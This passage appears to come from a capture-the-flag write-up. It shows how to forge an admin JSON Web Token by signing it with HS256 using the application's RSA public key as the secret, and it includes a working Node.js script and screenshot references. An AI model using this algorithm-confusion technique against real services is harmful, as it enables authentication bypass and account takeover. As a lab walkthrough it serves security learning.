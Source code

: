 So we can see, once the JWT is verified, the logged in user is determined by the `username` field in the data section of the JWT.

Therefore, we can use the following script to create an `admin` JWT:

```js
const jwt = require("jsonwebtoken");

publicKey = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtCKM9IX5ZlUs8hWTEa75\neu6mU09aoHm5jd36mDjaopQ8alaWcHykhVXXsd9Dfp+m86cV4zIbmH4FnZGw2wQT\nPEv824kR4amWL9X2/7TCu6jgM0SQuA+E7KJvMJTf8ycLqdwx3TQFQVAE35zzlvAw\n+MdONz1uQWXh2f6tz6oT+eD/CLd5rJRjxVyraykECcYBDAjOtOjU5NcnTiwU1t2z\nJ6kOkPlG6t7f5zJ8QnHFByIRDKqsRjCo/2cIdLToBaINt85lZy0j5EyWRM+Sfk6b\nNG+CCmR7v1dE2dUIJ5IeXqQ/KSyOxSV0RNbtp9f5pwilaOG+gFeAPAxW0B3PS/cQ\neQIDAQAB\n-----END PUBLIC KEY-----"

data = {'username': 'admin'}
data = Object.assign(data, {pk:publicKey});
key = jwt.sign(data, publicKey, { algorithm:'HS256' })
console.log(key)
```

![admin_jwt](naughty_or_nice_img/admin_jwt.png)

If we decode our new JWT, we now see the following:
![admin_decode](naughty_or_nice_img/admin_decode.png)
